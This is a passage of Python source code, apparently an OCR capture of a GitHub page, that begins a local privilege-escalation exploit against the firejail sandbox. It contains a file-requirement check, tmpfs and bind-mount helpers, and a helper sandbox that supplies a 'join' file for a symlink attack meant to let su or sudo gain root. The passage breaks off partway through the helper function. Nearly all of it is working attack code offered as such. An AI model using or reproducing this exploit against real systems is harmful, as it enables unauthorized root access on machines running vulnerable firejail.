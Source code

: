 ```python
# still the initial user namespace and the nonewprivs setting is unset,
# allowing to escalate privileges via su or sudo.

import os
import shutil
import stat
import subprocess
import sys
import tempfile
import time
from pathlib import Path

# Print error message and exit with status 1
def printe(*args, **kwargs):
    kwargs['file'] = sys.stderr
    print(*args, **kwargs)
    sys.exit(1)

# Return a boolean whether the given file path fulfils the requirements for the
# exploit to succeed:
# - owned by uid 0
# - size of 1 byte
# - the content is a single '1' ASCII character
def checkFile(f):
    s = os.stat(f)

    if s.st_uid != 0 or s.st_size != 1 or not stat.S_ISREG(s.st_mode):
        return False

    with open(f) as fd:
        ch = fd.read(2)

        if len(ch) != 1 or ch != "1":
            return False

    return True

def mountTmpFS(loc):
    subprocess.check_call("mount -t tmpfs none".split() + [loc])

def bindMount(src, dst):
    subprocess.check_call("mount --bind".split() + [src, dst])

def checkSelfExecutable():
    s = os.stat(__file__)

    if (s.st_mode & stat.S_IXUSR) == 0:
        printe(f"{__file__} needs to have the execute bit set for the exploit to work. Run `chmod +x {__file__}` and try again.")

# This creates a "helper" sandbox that serves the purpose of making available
# a proper "join" file for symlinking to as part of the exploit later on.
#
# Returns a tuple of (proc, join_file), where proc is the running subprocess
# (it needs to continue running until the exploit happened) and join_file is
# the path to the join file to use for the exploit.
def createHelperSandbox():
    # just run a long sleep command in an unsecured sandbox
    proc = subprocess.Popen(
            "firejail --noprofile -- sleep 10d".split(),
            stderr=subprocess.PIPE)

    # read out the child PID from the stderr output of firejail
```